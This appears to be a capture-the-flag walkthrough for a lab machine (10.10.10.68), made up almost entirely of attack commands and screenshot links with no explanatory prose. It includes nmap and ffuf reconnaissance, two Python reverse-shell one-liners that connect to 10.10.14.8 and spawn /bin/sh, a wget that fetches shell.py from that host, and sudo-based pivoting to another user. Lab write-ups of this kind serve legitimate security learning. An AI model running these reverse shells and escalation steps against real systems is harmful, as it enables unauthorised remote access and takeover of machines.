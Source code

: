```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://user-images.githubusercontent.com/33616880/231078057-77c3fa36-7209-4521-8619-dacbe002e5e0.png)


![image](https://user-images.githubusercontent.com/33616880/231078885-d693a7c8-64c3-4d4d-8792-30f38a714312.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231078144-85f18b51-a11c-4111-8827-4e1957812732.png)


![image](https://user-images.githubusercontent.com/33616880/231079195-c3821e9c-f4e0-45b6-944d-696a708a6df7.png)


https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux


```
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
sudo -l
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
```
sudo -u scriptmanager bash -i
```
![image](https://user-images.githubusercontent.com/33616880/231083178-a2ff7d4c-fbbf-4701-885e-399f0a2bd732.png)
![image](https://user-images.githubusercontent.com/33616880/231083338-54eabf9e-3306-488f-800c-b2ac046a8175.png)

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
```
wget 10.10.14.8/shell.py
```
```
nc -nlvp 4444
python -c shell.py
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/231084808-1b28d08b-1c89-46bd-9d76-3770e62233fc.png)
![image](https://user-images.githubusercontent.com/33616880/231085786-4b06a14b-e3d7-4406-98b4-ab4f676953d9.png)

